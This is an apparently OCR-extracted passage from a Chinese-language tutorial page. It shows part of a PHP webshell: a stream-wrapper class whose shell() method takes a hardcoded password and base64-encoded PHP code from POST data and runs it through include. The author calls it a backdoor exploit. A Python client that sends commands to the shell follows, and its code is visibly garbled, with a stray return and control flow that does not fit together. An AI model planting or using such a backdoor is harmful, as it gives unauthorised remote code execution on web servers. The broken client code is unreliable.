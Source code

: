 ```php
                    $this->position = strlen($this->code) + $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            default:
                return false;
        }
    }

    // include
    public function stream_stat()
    {
        return stat(FILE);
    }

    // file exists
    public function url_stat(string $path,int $stat)
    {
        return stat(FILE);
    }

    public static function shell(){
        stream_wrapper_register('shell', ShellStream::class);
        if (isset($_POST['password']) && $_POST['code']) {
            if ($_POST['password']=='dxkite') {
                $code = $_POST['code'];
                include 'shell://'.$code;
            } else {
                include 'shell://PD9waHAgZWNobyAiaGVsbG8gaGFjayI7';
            }
        }
    }
}

ShellStream::shell();
```
 
上述我实现了一个使用 $_POST 作为输入，接收密码和php代码的base64并执行代码的后门利用程序
 
```php
import requests 
import base64
import sys

def send_raw(url,password,cmd):
    res=requests.post(url,{
        'password':password,
        'code': base64.b64encode(cmd.encode('utf-8')) 
    })
    return res.text

def send_php_shell(url,password,cmd):
    return send_raw(url,password,'')
        if cmd == 'exit':
            break
        elif cmd.startswith('run'):
            cmd,path = cmd.split(' ',1)
            code = ''
            with open(path) as f:
                for line in f:
                    code = code + line + "\r\n" 
```

[0]: ./img/JjuaI3b.jpg 
[1]: ./img/uMJZB3f.jpg 
[2]: ./img/Yz2QjqB.jpg 
[3]: ./img/vEfyMjj.jpg 